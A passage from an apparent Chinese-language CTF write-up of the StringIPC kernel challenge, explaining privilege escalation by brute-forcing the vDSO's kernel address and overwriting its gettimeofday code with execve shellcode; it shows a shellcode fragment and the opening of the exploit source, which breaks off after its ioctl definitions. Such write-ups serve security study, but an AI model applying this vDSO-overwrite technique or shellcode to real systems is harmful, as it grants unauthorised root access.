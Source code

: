 ```
mov rsi,rsp
xor rdx,rdx
mov al,0x3b
syscall #execve
xor rax,rax
mov al,0xe7
syscall
```

**获取vdso地址**

vdso和vsyscall是内核通过映射方法与用户态共享的物理内存，从而加快执行效率，当在内核态修改内存时，用户态所访问到的数据同样会改变。
vdso在内核层的内存权限为rw，用户层的权限为rx，vdso的范围在0xffffffff80000000~0xffffffffffffefff。

通过getauxval(AT_SYSINFO_EHDR)函数得到用户层vdso地址，并调用memmem找到"gettimeofday"的字符串距离vdso地址的偏移为0x2cd。通过匹配vdso中"gettimeofday"字符串（同时偏移要为`0x2cd`，因为内存中可能存在多个"gettimeofday"字符串），可以爆破得到vdso的内核层地址，用gdb附加，用dump memory 出vdso的内容，共有0x2000个字节：

dump memory vdso.1 0xffffffff9ac04000 0xffffffff9ac06000

再用objdump -T vdso.1得到gettimeofday系统调用代码的偏移，将其覆盖成shellcode的代码，进行提权。（映射到用户空间的vdso其实是个ELF文件）

![](../image/2020-01-14-Stringipc-从内存任意读写到权限提升/2.jpg)

在提权前要判断用户层vdso+`0xc80`的内容是否被覆盖成shellcode了，因为内核态修改内存时，用户态所访问到的数据同样会改变。"gettimeofday"字符串和它的代码会在一页中。

#### Exp

总体思路其实就是爆破得到gettimeofday系统调用在vdso中内核层地址，将其覆盖成shellcode，等到其他root进程调用到gettimeofday时就可以执行shellcode，fork出的进程具有root权限，达到提权的目的。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/auxv.h>
#include <sys/prctl.h>

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8

```